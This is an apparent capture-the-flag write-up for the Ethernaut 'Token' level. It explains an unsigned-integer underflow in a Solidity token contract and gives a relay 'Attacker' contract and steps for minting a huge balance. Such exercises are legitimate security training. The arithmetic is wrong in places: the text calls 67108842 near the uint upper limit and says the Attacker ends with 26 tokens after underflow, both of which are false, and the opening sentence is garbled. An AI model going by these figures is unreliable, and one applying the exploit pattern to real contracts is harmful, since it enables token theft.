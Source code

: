 # [5. Token](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0. Here too we needed a buddy to help us, which is the contract below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Token {
  function transfer(address _to, uint _value) external returns (bool);
}

contract Attacker {
  Token tokenTarget;

  constructor(address _target) {
    tokenTarget = Token(_target);
  }

  function transfer(address _to, uint _value) external returns (bool) {
    return tokenTarget.transfer(_to, _value);
  }
}
```

The steps are simple:

1. We start with 20 tokens, as the task described. We send an arbitrary amount of (lets say 4) tokens to the Attacker contract.
    - Player has 16 tokens
    - Attacker has 4 tokens
2. We can now send from Attacker to the Player a HUGE amount of tokens, I sent 67108842. It is important to note that this value is a bit smaller than the upper-limit to avoid overflowing back.
    - Player has 67108858 tokens. This is equal to (16 + 67108842).
    - Attacker has 26 tokens. This is equal to (4 - 67108842) underflowed.

Why did we need the buddy attacker? Because in the code you can see that the two lines:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

cancel eachother out if both `msg.sender` and `_to` are the same.
